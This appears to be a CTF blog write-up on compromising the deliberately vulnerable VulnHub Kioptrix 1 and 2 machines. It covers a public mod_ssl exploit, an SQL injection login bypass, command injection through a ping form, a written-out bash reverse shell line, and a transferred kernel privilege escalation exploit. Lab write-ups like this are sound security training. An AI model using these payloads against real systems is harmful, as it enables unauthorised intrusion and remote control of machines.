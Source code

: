 ```yaml
---
layout: post
title: "Kioptrix 1 & 2"
date: 2018-11-30 
description: "Writeup of Kioptrix 1 and 2"
tag: CTF
---
```


After several posts with *HackTheBox* machines, we go back to the origins with *VulnHub*. This time, as they are relatively easy machines, we have a 2 for 1 offer and we are going to play with [Kioptrix 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) and [Kioptrix 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).

### Kioptrix 1

As usual, let's start enumerating the services on the remote machine using nmap. We see that many services appear, so let's launch other tools while we analyze the services manually.

![](/images/posts/Kioptrix1and2/img1.png "nmap results")

One of these tools is *nikto*, which is used to analyze vulnerabilities or configuration flaws in web applications. In the results we see that it has found the Apache module **mod_ssl** which could have an outdated version with a public vulnerability.

![](/images/posts/Kioptrix1and2/img2.png "nikto results")

Let's search the [Exploit Database](https://www.exploit-db.com/) to see if we find results for **mod_ssl 2.8.4**. We see that there are two exploits called *OpenFuck* that allow remote code execution using buffer overflow in **mod_ssl** versions below **2.8.7**.

![](/images/posts/Kioptrix1and2/img3.png "search mod_ssl exploits")

To use the exploit we must first compile it as indicated in the comments. When we run it, we see that we must select the operating system in the remote machine. Using the information obtained with *nmap*, we are going to look for **RedHat** offset.

![](/images/posts/Kioptrix1and2/img4.png "Compile exploit")

![](/images/posts/Kioptrix1and2/img5.png "Search RedHat version")

When we run the exploit, we see that we obtain a reverse shell with elevated privileges.

![](/images/posts/Kioptrix1and2/img6.png "Launch the exploit")

### Kioptrix 2

Like the previous machine, we will start with nmap to enumerate remote services and nikto for web applications.

![](/images/posts/Kioptrix1and2/img7.png "nmap results")

![](/images/posts/Kioptrix1and2/img8.png "nikto results")

We don't see any relevant information detected by nikto, so we will analyze the web application manually. As we can see it is a login page, but trying some default credentials we can't get in.

![](/images/posts/Kioptrix1and2/img9.png "Login web page")

![](/images/posts/Kioptrix1and2/img10.png "Login attempt using common credentials")

The next option is to test if any of the login fields are vulnerable to SLQ injection. We try the classic payload `' or '1'='1` in the password field to see if we can bypass it and make sure that any value is correct. **Bingo**, we have managed to access the administration panel!

![](/images/posts/Kioptrix1and2/img11.png "SQL injection in the password field")

This panel only contains a functionality to ping the IP provided by the user and the result is the output of the ping command.

![](/images/posts/Kioptrix1and2/img12.png "Administratvie console")

![](/images/posts/Kioptrix1and2/img13.png "ping functionality")

This functionality looks suspicious to command injection in case the user input is not correctly sanitized. We are going to use the *ping* `-c` parameter, used to specify the number of requests, to see if the behavior of the functionality is modified and the results of the command reflect the number of requests given.

![](/images/posts/Kioptrix1and2/img14.png "Executing commands")

Using `;` we can chain the execution of a second command once the ping is finished. We could extract information from the machine using `cat`, but we are going to open directly a reverse shell in bash with `bash -i >& /dev/tcp/<LOCAL IP>/<LOCAL PORT> 0>&1`.

![](/images/posts/Kioptrix1and2/img15.png "Obtaining reverse shell")

This time the machine is better configured, and we get a reverse shell with the user who has executed the web application without elevated privileges. Next we are going to start the information gathering of the machine to look for any privilege escalation path.

![](/images/posts/Kioptrix1and2/img16.png "Information gathering")

Searching again the operating system version in [Exploit Database](https://www.exploit-db.com/), we found an exploit that would allow us to elevate privileges using the vulnerability **CVE-2009-2698**.

![](/images/posts/Kioptrix1and2/img17.png "Searching exploits for CentOS version")

To transfer the exploit, we will use the Python **SimpleHTTPServer** module to open a web server and get the file from the victim machine with `wget`.

![](/images/posts/Kioptrix1and2/img18.png "Transfer the exploit code")

Finally, we just need to compile the exploit as the developer says in the comments and run it on the machine to obtain elevated privileges.

![](/images/posts/Kioptrix1and2/img19.png "Executing the exploit")